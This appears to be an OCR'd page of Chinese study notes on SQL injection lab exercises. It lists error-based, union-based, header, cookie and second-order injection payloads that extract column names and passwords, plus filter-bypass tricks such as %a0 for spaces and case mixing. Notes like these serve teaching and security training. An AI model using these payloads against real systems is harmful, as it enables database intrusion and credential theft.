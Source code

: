     2. extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and column_name not in ('user_id','user','first_name','last_name','avatar','last_login','failed_login')),0x7e),1)#  //爆列名
    3. updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1)#   //爆值，报错显示specify target，嵌套多一个select
    4. updatexml(1,concat(0x7e,(select password from (select password from users where username='admin')),0x7e),1)#  //提示every denived table must have alias ，即需要名字
    5. updatexml(1,concat(0x7e,(select password from (select password from users where username='admin') mingzi ),0x7e),1)#  //加名字即可爆出un为admin的password
    6. updatexml(1,concat(0x7e,(select password from (select password from users limit 1,1) test ),0x7e),1)#   //第二种方法，去掉where，直接limit一个一个爆
18. post头部uagent注入：抓包改user-agent,'and extractvalue(1,concat(0x7e,(select @@basedir),0x7e)) and '1'='1  
19. post头部referer注入:同上
20. post  cookie注入:抓包改cookie  admin'and extractvalue(1,concat((select @@datadir)))#



**Page-2  进阶注入**

21. cookie注入 base64加密：变成')   抓包改cookie，是base64加密

22. cookie注入 base64加密：同上，变成"

23. 回显，注释过滤：注释符被过滤，有回显，?id=-1' union select 1,2,'3
    1. id=-1' union select 1,concat((select schema_name from information_schema.schemata limit 1,1)),'3  //负号是为了超出范围，执行后续语句；第一个引号闭合-1，第二个闭合后面，这样将查询内容显示出来
    2. -1' union select 1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='emails')),'3
    3. (select concat(id) from security.emails limit 0,1),'3

24. 二次注入：注册admin'#账户，修改密码为12，进入数据库查看，发现admin被修改为12，因为读取时是'uname'  ，输入admin'#变成 'admin'#'  ，被截断为admin

25. or-and过滤变形：绕过or 和 and过滤，此处利用符号绕过

    1. 大小写变形 OR,Or,oR
    2. 编码绕过，hex,urlencode
    3. 添加注释/**/
    4. 利用符号|| = or  &&=and

    25a  不回显，过滤or and ：?id=-1 union select 1,2,3#

26. 过滤空格与注释：注释过滤可以再写一个||'1 将其闭合，%09=tab水平  , %0a=换行,%0c=换页,%0d=return,%0b=TAb垂直，%a0=空格

    1. ?id=1'%a0union%a0 select%a0 1,2,3%a0||'1  //所有空格用%a0替代
    2. 正常回显，将前面1换成超出范围的数字，执行后续语句，成功

    26a  ?id=8981')%a0union%a0select%a01,2,3%a0||('1    加括号

27. union select变形，空格过滤：大小写绕过   %a0编码绕过  ?id=221'%a0UnIon%a0SelEct%a01,2,3%a0||'1

    27a   ?id=71"%a0UnIon%a0SelEct%a01,2,3%a0||%a0"1   //双引号注入

28. ?id=71')unioN%a0Select%a01,2,3||('1  //括号引号

    28a  少了and or 过滤，同上

29. ?id=1&id=661'unioN%a0SeleCT%a01,database(),3 --+

